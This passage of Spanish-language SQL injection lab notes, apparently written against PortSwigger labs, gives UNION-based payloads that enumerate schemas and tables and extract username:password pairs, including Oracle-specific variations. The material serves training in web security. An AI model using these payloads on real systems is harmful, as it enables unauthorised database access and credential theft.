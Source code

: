 Pero si queremos ver el contenido de la tabla `users` pero esa tabla no se encuentra en la base de datos donde estamos inyectando el codigo de `mysql` tendriamos que conocer el nombre de esa base de datos y hacer lo siguiente...

```mysql
' union select group_concat(username,':',password),NULL from database.users-- -
```

o

```mysql
' union select 'username',NULL from database.users-- -
```

o

```mysql
' union select concat(username,':',password),NULL from database.users-- -
```

### Lab: SQL Injection UNION attack, retrieving multiple values in a single column

Aqui nos dice casi lo mismo de antes, que saquemos las credenciales listando las columnas para registrarnos en la pagina web...

```mysql
' union select schema_name,NULL from information_schema.schemata-- -
```

```mysql
' union select table_name,NULL from information_schema.tables where table_schema='public'-- -
```

```mysql
' union select concat(username,':',password),NULL from users-- -
```

o

```mysql
' union select username||':'||password,NULL from users-- -
```

### Lab: SQL Injection attack, querying the database type and version on Oracle

URL (Oracle SQL Injection) = https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/OracleSQL%20Injection.md

Al ser en `Oracle` cambian algunos detalles a la hora de hacer este tipo de inyecciones...

Nos va a dar `ERROR` si ponemos lo siguiente ya que nos estamos enfrentando ante un `Oracle`...

```mysql
' union select NULL,NULL-- -
```

Pero como estamos en `Oracle` para que nos funcione eso de aqui arriba, tendriamos que hacer lo siguiente...
